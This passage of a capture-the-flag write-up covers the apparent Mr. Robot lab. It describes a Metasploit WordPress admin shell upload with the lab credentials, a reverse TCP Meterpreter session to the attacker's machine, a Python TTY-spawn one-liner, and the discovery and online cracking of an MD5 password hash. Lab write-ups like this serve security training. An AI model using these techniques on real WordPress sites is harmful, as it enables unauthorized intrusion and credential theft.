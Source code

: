 1. Reverse TCP handler started on attacker machine (192.168.1.15:4444)
2. Authentication to WordPress using elliot:ER28-0652
3. Malicious plugin uploaded to /wp-content/plugins/FzjbyIiJKK/xKPIqAnqvw.php
4. Meterpreter session established


**Analysis:**
The successful exploitation provided a Meterpreter session on the target system, allowing for further post-exploitation activities. The wp_admin_shell_upload module leverages the WordPress plugin upload functionality to deploy a malicious PHP file that establishes a reverse shell connection.

## Phase 4: Post-Exploitation

### System Exploration

Using the established Meterpreter session, the target system was explored to identify sensitive information and potential privilege escalation vectors:

**Command executed in Meterpreter:**

```bash
shell
```

A Python one-liner was used to spawn a fully interactive TTY shell:

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

### User Account Discovery

Exploration of the /home directory revealed a user account named 'robot'. In this user's home directory (/home/robot), two critical files were discovered:

- **key-2-of-3.txt**: The second key file
- **password.raw-md5**: A file containing an MD5 password hash


**File permissions analysis:**

- key-2-of-3.txt: Readable only by the 'robot' user
- password.raw-md5: World-readable


**Contents of password.raw-md5:**

```plaintext
robot:c3fcd3d76192e4007dfb496cca67e13b
```

### Password Hash Cracking

The discovered MD5 hash was submitted to an online cracking service (Crackstation) for analysis:

![[Pasted image 20250401175207.png]]

**Cracked password:** `abcdefghijklmnopqrstuvwxyz`
